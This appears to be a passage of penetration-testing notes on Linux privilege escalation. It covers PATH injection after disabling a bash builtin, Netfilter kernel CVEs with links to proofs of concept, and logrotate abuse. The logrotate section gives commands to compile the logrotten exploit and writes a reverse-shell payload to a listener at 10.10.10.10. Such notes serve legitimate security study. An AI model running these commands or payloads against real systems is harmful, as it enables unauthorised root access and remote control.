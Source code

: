 ## RC Misconfigurations

```bash
# .bashrc weirdness
# disabling a bash builtin may lead to path injection
enable -n $Builtin
# As pathing to the builtin that is a file is then controllable:
export PATH=/dev/shm:$PATH
/dev/shm/[
```
## Netfilter

[Netfilter](https://www.netfilter.org/) *"The netfilter project is a community-driven collaborative [FOSS](https://en.wikipedia.org/wiki/Free_and_open-source_software) project that provides packet filtering software for the [Linux](http://www.kernel.org/) 2.4.x and later kernel series. The netfilter project is commonly associated with [iptables](https://www.netfilter.org/projects/iptables/index.html) and its successor [nftables](https://www.netfilter.org/projects/nftables/index.html)."* Its main functions:
1. Packet defragmentation
2. Connection tracking
3. Network address translation (NAT)
CVEs:
- [CVE-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555) - Vulnerable kernel versions: `2.6 - 5.11`
- [CVE-2022-1015](https://github.com/pqlx/CVE-2022-1015) - Vulnerable kernel versions `5.4 - 5.6.10`
- [CVE-2023-32233](https://github.com/Liuk3r/CVE-2023-32233) - [[Use-After-Free]] vulnerability in the Linux Kernel up to version `6.3.1`.

## Logrotate

`logrotate` archives or disposes of old logs to prevent excessive disk usage. More of `logrotate` usage on [[Linux-Logging]]
1. Require `write` permissions on the log files
2. `logrotate` must run as a privileged user or `root`
3. or has vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0
[logrotten](https://github.com/whotwagner/logrotten)
```bash
# The configuration file default location:
cat /etc/logrotate.conf
# Confirguation files per service 
ls -la /etc/logrotate.d/*

# Enumerate which option `logrotate` uses in logrotate.conf 
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
# git clone and compile the logrotten exploit
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten
# Create a payload
echo 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1' > payload
chmod +x logrotten
# Start a listener!
./logrotten -p ./payload /tmp/tmp.log

# Regular usage
logrotate [OPTION...] <configfile>
# Forcing new rotation by set the date after the individual log files in the status file:
cat /var/lib/logrotate.status # or...
```